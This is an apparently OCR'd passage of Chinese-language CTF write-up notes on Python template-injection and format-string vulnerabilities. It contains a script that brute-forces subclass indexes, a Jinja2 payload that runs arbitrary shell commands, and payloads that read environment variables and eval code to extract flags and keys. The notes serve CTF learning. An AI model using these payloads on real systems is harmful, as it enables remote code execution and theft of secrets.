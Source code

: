 ```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)

# 得到索引为245
```

则构造如下payload执行命令即可：

```python
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}

# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}
```

# 格式化字符串漏洞读环境变量

2023鹏城杯Web-Escape举例子。关键代码如下。username可控。

```python
     return ("Sorry, we couldn't find a user '{user}' with password hash <code>{{passhash}}</code>!"
                .format(user=username)
                .format(passhash=new_pwd)
                )
```

最后的payload如下

```
{passhash.__str__.__globals__[app].wsgi_app.__globals__[os].environ}
```

还有一个题也是读变量的哈工大办的2022HITCTF

```python
根据源代码，这里关键要解密一个flag。那么可以用下面payload读flag和密钥还有一个nonce。再解密即可
?ha=__class__&hb=__base__&hc=__base__&hd=__subclasses__&he=__init__&hf=__globals__&hg=__builtins__&ah=eval&exp=__import__('app').flag&expression=[][request[dict(a=1,rgs=2)|join][dict(h=1,a=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,b=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,c=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,d=2)|join]]()[191][request[dict(a=1,rgs=2)|join][dict(h=1,e=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,f=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,g=2)|join]][request[dict(a=1,rgs=2)|join][dict(a=1,h=2)|join]](request[dict(a=1,rgs=2)|join][dict(e=1,xp=2)|join])
```
